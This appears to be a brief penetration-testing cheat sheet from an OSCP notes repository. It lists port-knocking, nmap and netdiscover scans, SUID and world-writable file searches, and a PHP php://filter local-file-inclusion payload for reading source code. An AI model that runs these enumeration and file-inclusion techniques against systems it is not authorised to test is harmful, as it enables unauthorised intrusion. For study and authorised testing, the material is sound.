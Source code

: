 ## **Port Knocking :**
```
TCP
knock -v <ip> 4 27391 159

UDP
knock -v <IP> 4 27391 159 -u

TCP & UDP
knock -v <IP> 159:udp 27391:tcp 4:udp
```

# OTHER TECHNIQUES
* **IP DISCOVERY**
```
netdiscover -r 10.0.2.0/24
nmap -sP 10.195.0.0/16 // ping discovery scan
```
*  **connect to a UDP port**
`nc -u localhost 161`

* **WINDOWS**
search for files
`C:\> dir /s /b network-secret.txt`

* **Finding files**
```
Find SUID files ---> find / -perm -4000 -type f 2>/dev/null
Find SUID files owned by root ---> find / -uid 0 -perm -4000 -type f 2>/dev/null   
Find files with GUID bit set ---> find / -perm -2000 -type f 2>/dev/null      
Find world-writable files ---> find / -perm -2 -type f 2>/dev/null         
Find word-writable directories ---> find / -perm -2 -type d 2>/dev/null         
Find rhost config files ---> find /home –name .rhosts -print 2>/dev/null    
list files recursively ---> ls -ahlR /root/      
```
* **PHP**
Read PHP source code with php://filter
```
http://<IP>/?page=upload   // original page
http://<IP>/?page=php://filter/convert.base64-encode/resource=upload
curl http://<IP>/?page=php://filter/convert.base64-encode/resource=upload
 ``` 
>  The result needs to be decoded from Base64





Other recourses can be found here https://github.com/R0B1NL1N/OSCP-note/blob/master/ENUMERATION/enumeration
